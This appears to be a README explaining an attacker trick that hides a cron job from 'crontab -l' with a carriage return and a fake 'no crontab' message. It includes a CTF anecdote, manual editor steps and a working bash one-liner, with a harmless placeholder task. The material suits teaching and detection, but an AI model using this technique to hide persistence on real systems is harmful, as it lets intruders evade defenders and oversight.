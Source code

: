 # Hide Crontab Contents with a Carriage Return

### What's happening?

The contents of a crontab file can be hidden by inserting a carriage return character and a fake message. When a defender lists the crontab with `crontab -l`, the carriage return character will be interpreted so the defender will see the message instead of the scheduled task. This is a simple trick which can be used to hide maintain persistence.

### Where did this come from?

This maneuver comes straight from [@tylerni7](https://twitter.com/tylerni7)'s mouth in [epsiode 43](https://darknetdiaries.com/episode/43/) of [Darknet Diaries](https://darknetdiaries.com/). In this episode, Tyler is describing PPP's participation in one of Defcon's annual attack-and-defend CTF events. During this event, Tyler's team knew that an adversary had gained access to one of their machines and was exfiltrating the flag. They thought the adversary was accomplishing this through a cron job but when they listed the jobs with `crontab -l` they saw the message `no crontab for [user]`. After seeing this message they assumed the data was being exfiltrated a different way and moved on.

Later they found out that there _was_ a cron job but that the adversary had included a carriage return character with a phony 'no crontab' message in the crontab. This caused the `crontab -l` command to display the adversary's message instead of the cron job. 

### Why does this work?

Some Linux binaries (like `cat`, `head`, `tail`, and `nl`) interpret control characters and others (`less`,`more`) display or ignore them:
```
root@kali:# echo -e '1\r2' > cr
root@kali:# cat cr
2
root@kali:# head cr
2
root@kali:# tail cr
2
root@kali:# nl cr
2    1  1
root@kali:# less cr
1^M2
root@kali:# more cr
1

```

`crontab -l` treats the control characters the same way that `cat` and `head` do: `crontab -l` interprets the carriage return as an instruction and moves the cursor to the front of the line.

### How do we execute this?

**Manual execution:**
1. Editing the current user's crontab: `crontab -e`
1. Deleting the preamble:
	* nano:
		1. `Ctrl`+`Shift`+`6` to select the first line of the preamble.
		1. Move cursor with down arrow key until the final line.
		1. `Ctrl`+`K` to cut/delete the selected text.
	* vi(m):
		1. Issue command `23dd` from the first line to delete the first 23 lines (length of the preamble).
1. Inserting the scheduled task with a trailing semicolon: `* * * * * touch /tmp/1;`
1. Inserting the carriage return:
	* nano: `Alt`+`V` then `Ctrl`+`M`.
	* vi(m): `Ctrl`+`V` then `Ctrl`+`M`.
1. Writing the display message that says there are is crontab: `no crontab for [user]`
1. Adding sufficient whitespaces after the message to completely hide the crontab contents. The formula for the minimum number of whitespace is: length of cronjob - 14 - length of user name.

When finished the crontab file will contain the following:
```
* * * * * touch /tmp/1;^Mno crontab for root                             
```

**Bash one-liner:**
```
cc="* * * * * touch /tmp/1" ; ct=$(printf "$cc;\rno crontab for $USER%*s" $(expr length "$cc" - 14 - $(expr length $USER))) ; echo "$ct" | crontab -
```

What the defender sees when they list the user's crontab using `crontab -l`:
```
root@kali:# crontab -l
no crontab for root                             
```